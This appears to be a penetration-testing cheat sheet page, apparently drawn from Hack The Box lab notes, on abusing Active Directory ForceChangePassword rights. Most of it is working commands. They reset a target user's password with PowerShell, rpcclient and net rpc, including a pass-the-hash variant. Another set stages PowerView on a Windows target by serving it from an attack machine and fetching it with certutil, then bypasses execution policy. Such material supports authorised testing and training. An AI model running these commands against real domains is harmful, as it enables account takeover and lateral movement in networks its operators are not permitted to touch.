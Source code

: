 # ForceChangePassword rights

This abuse can be carried out when controlling an object that has a `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` over the target user.



<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## PowerShell

{% code overflow="wrap" %}
```powershell
$userIdentity = 'CN=Michael Williams,CN=Users,DC=administrator,DC=htb'

Set-ADAccountPassword -Identity $userIdentity -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "Password123!" -Force)
```
{% endcode %}



## RPC&#x20;

<pre class="language-bash" data-title="rpcclient"><code class="lang-bash">rpcclient -U DOMAIN.COM/USER DC_IP

<strong>setuserinfo2 USER_TO_CHANGE_PASS 23 'NewPassword123!'
</strong></code></pre>

{% code title="Net" overflow="wrap" %}
```bash
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"

# Pass-the-Hash
pth-net rpc password "$TargetUser" -U "$DOMAIN"/"$USER"%"ffffffffffffffffffffffffffffffff":"$NT_HASH" -S "$DC_HOST"
```
{% endcode %}







## PowerView

Import powerview

{% code title="transfer PowerView" overflow="wrap" %}
```bash
# attack machine
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1
python3 -m http.server 80

# target machine windows
certutil -urlcache -f http://IP/PowerView.ps1 PowerView.ps1
```
{% endcode %}

{% code title="Import PowerView" %}
```powershell
powershell -ep bypass
. .\PowerView.ps1
```
{% endcode %}



Now we can force change the micheal's password.

{% code title="Create Password" overflow="wrap" %}
```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USER', $SecPassword)

```
{% endcode %}

{% code title="Convert pswd in secure string" %}
```powershell
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```
{% endcode %}

{% code title="Set password to user" overflow="wrap" %}
```powershell
Set-DomainUserPassword -Identity <USER> -AccountPassword $UserPassword -Credential $Cred
```
{% endcode %}



